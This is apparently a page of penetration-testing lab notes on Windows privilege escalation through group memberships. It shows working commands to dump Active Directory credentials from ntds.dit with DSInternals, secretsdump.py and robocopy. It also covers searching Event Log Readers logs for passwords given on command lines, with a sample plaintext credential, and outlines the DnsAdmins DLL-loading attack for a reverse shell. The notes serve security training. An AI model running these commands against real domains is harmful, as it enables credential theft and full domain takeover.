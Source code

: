 Now we can use PowerShell **DSInternals** to extract the credentials. For example, extracting the *administrator* credentials:
```console
PS C:\zeropio> Import-Module .\DSInternals.psd1
PS C:\zeropio> $key = Get-BootKey -SystemHivePath .\SYSTEM
PS C:\zeropio> Get-ADDBAccount -DistinguishedName 'CN=administrator,CN=users,DC=<DOMAIN>,DC=local' -DBPath .\ntds.dit -BootKey $key
```

Also, we can use **secretsdump.py**:
```console
zero@pio$ secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL
```

And then crack the hashes with hashcat.

Another useful tool is [robocopy](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/robocopy).
```console
C:\htb> robocopy /B E:\Windows\NTDS .\ntds ntds.dit
```

This eliminates the need for any external tools.

## Event Log Readers 

Administrators or members of the Event Log Readers group have permission to access this log. We can see the users in this group:
```console
C:\zeropio> net localgroup "Event Log Readers"
```

We can query Windows events from the command line using the `wevtutil` utility and the `Get-WinEvent` PowerShell cmdlet:
```console
PS C:\zeropio> wevtutil qe Security /rd:true /f:text | Select-String "/user"
```

We can also specify alternate credentials for wevtutil using the parameters `/u` and `/p`:
```console
C:\zeropio> wevtutil qe Security /rd:true /f:text /r:share01 /u:julie.clay /p:Welcome1 | findstr "/user"
```

For searching security logs:
```console
PS C:\zeropio> Get-WinEvent -LogName security | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*'} | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}
```

## DnsAdmins 

Members of the DnsAdmins group have access to DNS information on the network. The DNS service runs as **NT AUTHORITY\SYSTEM**. The following attack can be performed when DNS is run on a Domain Controller:
- DNS management is performed over RPC 
- ServerLevelPluginDll allows us to load a custom DLL with zero verification of the DLL's path (`dnscmd`)
- When a member of the DnsAdmins group runs the `dnscmd` command below, the **HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\DNS\Parameters\ServerLevelPluginDll** registry key is populated
- When the DNS service is restarted, the DLL in this path will be loaded
- An attacker can load a custom DLL to obtain a reverse shell or even load a tool
